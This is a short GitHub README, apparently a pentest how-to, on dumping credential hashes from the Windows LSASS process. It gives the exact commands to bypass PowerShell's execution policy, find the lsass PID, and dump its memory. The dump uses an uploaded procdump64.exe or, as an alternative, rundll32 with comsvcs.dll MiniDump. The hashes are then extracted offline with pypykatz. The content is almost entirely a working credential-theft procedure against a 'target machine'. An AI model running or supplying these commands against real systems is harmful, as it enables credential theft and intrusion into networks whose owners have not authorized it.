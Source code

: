 # Lsass-dump

Don't need mimikatz. You can now dump hashes from LSASS by abusing LSASS process and generate a lsass.dmp file. After that we will use pypykatz to extarct the hashes from lsass.dmp file.

# Exploitation

First we must have an administrative privilege to carry this attack.
Upload [procdump64.exe](https://github.com/k4sth4/lsass-dump/blob/main/procdump64.exe) to target machine.

### Execute Powershell
```markdown
powershell.exe -ep bypass
```

### Get te lassa process id
```markdown
get-process lsass
```

![OnPaste 20220609-133131](https://user-images.githubusercontent.com/106917304/172796695-6b4a5377-2e04-4bfd-9841-453c8a61b8ca.png)

In our case 596 is the lsass process ID.
Execute it with [procdump64.exe](https://github.com/k4sth4/lsass-dump/blob/main/procdump64.exe) and generate a file contain hashes.

### Dumping Hashes into a file
```markdown
.\procdump64.exe -accepteula -ma 596 lsass.dmp
```

## ALTERNATE

We can also use native DLLs instead of procdump64.exe, this way we don't have to upoad anything on target machine.
```markdown
C:\\Windows\\System32\\rundll32.exe C:\\windows\\System32\\comsvcs.dll, MiniDump 596 C:\\Users\\Bob\\Desktop\\lsass.dmp full
```

![OnPaste 20220609-134015](https://user-images.githubusercontent.com/106917304/172800153-21110c80-b8a2-4bb0-a7cb-79e167041ec2.png)


![OnPaste 20220609-135307](https://user-images.githubusercontent.com/106917304/172800664-bd459ddc-50cc-42e6-8380-de12de0b4643.png)



### Using Pypykatz

Now we get that lsass.dmp file to our attacking machine and exctract the hashes using pypykatz.
```markdown
pypykatz lsa minidump lsass.dmp
```

![OnPaste 20220609-135650](https://user-images.githubusercontent.com/106917304/172801351-c615e903-a4b4-41e3-a349-5bd59beb1a18.png)


